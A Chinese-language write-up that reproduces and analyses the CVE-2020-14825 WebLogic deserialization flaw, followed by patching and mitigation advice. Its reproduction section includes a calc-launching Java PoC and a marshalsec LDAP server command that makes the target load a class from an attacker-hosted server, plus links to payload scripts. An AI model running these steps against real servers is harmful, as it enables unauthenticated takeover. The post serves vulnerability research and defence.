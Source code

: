 # （CVE-2020-14825）Weblogic反序列化漏洞



## 0x01 简介





Weblogic是美国Oracle公司出品的一个Application Server，确切的说是一个基于JavaEE架构的中间件，Weblogic是用于开发、集成、部署和管理大型分布式Web应用、网络应用和数据库应用的Java应用服务器。



## 0x02 漏洞概述





 **漏洞编号CVE-2020-14825**

Oracle官方在2020年10月份发布的最新安全补丁中修复了许多安全漏洞，其中黑名单类oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor可造成反序列化漏洞。该漏洞允许未经身份验证的攻击者通过IIOP，T3进行网络访问，未经身份验证的攻击者成功利用此漏洞可能接管Oracle Weblogic Server。



## 0x03 影响版本





Oracle WebLogic Server 12.2.1.3.0

Oracle WebLogic Server 12.2.1.4.0

Oracle WebLogic Server 14.1.1.0.0



## 0x04 环境搭建





由于之前复现[CVE-2020-14645](http://mp.weixin.qq.com/s?__biz=MzA4NzUwMzc3NQ==&mid=2247485197&idx=1&sn=5d6b3cb8e5315b1b6672ddc00c68898b&chksm=903921fda74ea8eb0b2418889aff4955ede0451f7007ce490aa72959922f42495adc1c934905&scene=21#wechat_redirect)漏洞时已经搭建完成，因此在此不过多阐述过程，仅记录一些信息。



**Weblogic下载链接：**

https://www.oracle.com/middleware/technologies/weblogic-server-installers-downloads.html



![image-20200928152012609.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405928.png)



选择 12.2.1.4 的 Generic 版本进行下载安装即可，安装过程注意JDK版本造成的安装失败（建议JDK 1.8）以及以管理员权限运行安装包。具体安装过程可参照这两篇文章：

```
http://www.quiee.com.cn/courses/qui/370984-1429262936779670.html
https://www.cnblogs.com/xdp-gacl/p/4140683.html
```



此外，安装过程中，为方便后续其他漏洞利用，安装类型可选择“含示例的完整安装”。



安装完之后，直接运行安装目录下的启动脚本即可，路径结构如下：



```
$Oracle_Home$\12.2.1.4.0\user_projects\domains\wl_server\startWebLogic.cmd
// Oracle_Home指WebLogic安装的绝对路径
```



启动脚本后，浏览器访问

http://127.0.0.1:7001/console



![image-20200928162057678.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405918.png)



正常显示控制台登录界面，即代表安装成功。



## 0x05 漏洞复现





1、编译poc文件并通过python部署在http服务器，poc文件如下：

```
public class exp{
    // POC open calc
    public exp(){
        try {
            Runtime.getRuntime().exec("calc.exe");
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
    public static void main(String[] argv){
        exp e = new exp();
    }
}
```



将编译产生的 class 文件部署在 python 起的 http 服务器



```
//python3
$python -m http.server 80
```



2、启动 ldap 服务链接到 poc 文件



```
$java -cp marshalsec.jar marshalsec.jndi.LDAPRefServer http://192.168.247.128/#Poc 1389
```



3、运行 payload 文件生成反序列化数据文件，通过t3协议传输



**payload 文件见：**

https://github.com/rufherg/WebLogic_Basic_Poc/blob/master/poc/CVE_2020_14825.java



**python T3 脚本见：**

https://github.com/rufherg/WebLogic_Basic_Poc



![image-20201022173453768.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405673.png)



## 0x06 漏洞分析





这个漏洞实质上跟 CVE-2020-14645 并无太大差别，前半段的利用链入口是一致的，只不过最后造成代码执行的类不一样。CVE-2020-14645 用的类为`com.tangosol.util.extractor.UniversalExtractor`，而 CVE-2020-14825 用的类是`oracle.eclipselink.coherence.integrated.internal.cache.LockVersionExtractor`。



![image-20201022190115980.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405892.png)



从调用栈来看，前半部分即是 CC4 链的入口，此部分网上有很多深入分析的文章，此处不再阐述。重点来关注`LockVersionExtractor`这个类，观察其`extract`方法。



![image-20201022201756045.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405878.png)



重点关注图上红框的方法，先来看`this.accessor`的来源。



![image-20201022192841513.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405897.png)



构造方法中可以指定`accessor`，然后在`extract`方法中会依次调用其`initializeAttributes`和`getAttributeValueFromObject`方法。那么我们需要找到一个符合条件的`Accessor`类，并且其`initializeAttributes`或`getAttributeValueFromObject`方法中存在可恶意利用的部分。这里我们寻找到`MethodAttributeAccessor`这个类，在其`getAttributeValueFromObject`方法中存在恶意利用的部分。



![image-20201022194155090.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133406348.png)



但此处由于`extract`方法中的调用参数只有`arg0`，即`parameters`为`null`，因此我们只能寻找无参的利用方法。



![image-20201022195204006.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405764.png)



![image-20201022203150747.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133406031.png)



方法名可以通过直接调用`setGetMethod`方法设置，但是这个属性值是经过`transient`修饰的。所以我们只能从`setGetMethod`方法入手，看看哪里还调用了这个方法。



![image-20201022203447643.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133406070.png)



恰巧在其`initializeAttributes`方法有一处调用了`setGetMethod`方法，但是注意需要给父类`AttributeAccessor`的`attributeName`属性赋值，否则将抛出异常。接下来跟进`Helper.getDeclaredMethod`方法进行分析。



![image-20201022205322460.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133405981.png)



大致就是根据传入的方法是否私有，然后进行不同的处理，最终返回所需的`Method`对象。所以我们只要通过`setGetMethodName`方法设置`this.getMethodName`属性值，但是需要注意的是，我们需要令`this.isWriteOnly()`返回`true`，否则将会覆盖我们上面设置的方法。可以通过`setIsWriteOnly`方法设置`this.isWriteOnly`为`true`。



至此，我们可以通过反序列化已经可以调用任意类的无参方法。很容易联想到 CVE-2020-14645 和 fastjson 的利用方式，即通过`JdbcRowSetImpl`进行 JNDI 注入。其`connect`方法中调用了`lookup`方法，并且`DataSourceName`是可控的，因此存在JNDI注入漏洞，看看有哪些地方调用了`connect`方法。



![image-20200802012358277.png](resource/%EF%BC%88CVE-2020-14825%EF%BC%89Weblogic%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E/media/640-20201029133406007.png)



由于`setAutoCommit`不是无参方法，因此使用`getDatabaseMetaData`方法进行利用。



**0x07 修复方式**





1、安装官方补丁

https://www.oracle.com/security-alerts/cpuoct2020.html



2、限制T3访问来源

漏洞产生于WebLogic默认启用的T3协议，因此可通过限制T3访问来源来阻止攻击。



3、禁用IIOP协议

可以查看下面官方文章进行关闭IIOP协议。

https://docs.oracle.com/middleware/1213/wls/WLACH/taskhelp/channels/EnableAndConfigureIIOP.html



**0x08 总结**



实质上，这个洞也是一种类比思路产生，从2555到2883，再到14645然后到14825。不断在跟黑名单博弈，利用链前半段依旧不变，一直在找可以替代的Extractor。在平时的一些挖洞上，类比思路是一个很好的技巧，比起全盘代码审计，显得更加高效。在不断的漏洞复现中，需要学会总结中其中存在的共性，并将其转化为自己的经验技巧，用于平时的漏洞挖掘又或者从甲方的角度去思考如何真正有效的防御。



```
参考链接：
```

https://www.oracle.com/security-alerts/cpuoct2020.html
https://github.com/mbechler/marshalsec
https://github.com/rufherg/WebLogic_Basic_Poc